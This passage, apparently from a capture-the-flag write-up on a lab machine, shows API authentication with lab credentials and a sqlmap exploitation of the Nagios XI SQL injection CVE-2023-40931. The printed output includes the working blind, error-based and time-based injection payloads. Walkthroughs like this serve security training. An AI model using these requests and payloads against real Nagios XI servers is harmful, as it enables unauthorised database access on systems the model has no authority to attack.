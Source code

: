 ```
┌──(Batman㉿GC)-[~]
└─$ curl -POST -k 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500'
{"username":"svc","user_id":"2","auth_token":"55c824578da1ffa6ce75d68f334c2fa195a495b8","valid_min":500,"valid_until":"Wed, 17 Jan 2024 10:33:35 -0500"}

```

A quick search shows that we can use [CVE-2023–40931](https://nvd.nist.gov/vuln/detail/CVE-2023-40931) in the `/nagiosxi/admin/banner_message-ajaxhelper.php` endpoint via the `id`parameter. For this we will use the token given to us above.

```
┌──(Batman㉿GC)-[~]
└─$ sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=1ec86e6d63a7db533923217f3db57a35a244e800" --level 5 --risk 3 -p id

**GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N]**
sqlmap identified the following injection point(s) with a total of 993 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: action=acknowledge_banner_message&id=(SELECT (CASE WHEN (5205=5205) THEN 3 ELSE (SELECT 9942 UNION SELECT 5411) END))&token=1ec86e6d63a7db533923217f3db57a35a244e800

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: action=acknowledge_banner_message&id=3 OR (SELECT 2248 FROM(SELECT COUNT(*),CONCAT(0x716a6a7171,(SELECT (ELT(2248=2248,1))),0x7176717671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&token=1ec86e6d63a7db533923217f3db57a35a244e800

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=acknowledge_banner_message&id=3 AND (SELECT 7417 FROM (SELECT(SLEEP(5)))JwYk)&token=1ec86e6d63a7db533923217f3db57a35a244e800
---

[20:34:00] **[****INFO**] **the back-end DBMS is MySQL**
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

Now you can pull the database.

Run the following command.

<figure><img src=".gitbook/assets/1FVX7ro-xbjjwE4kQ2HKlzQ.webp" alt=""><figcaption></figcaption></figure>
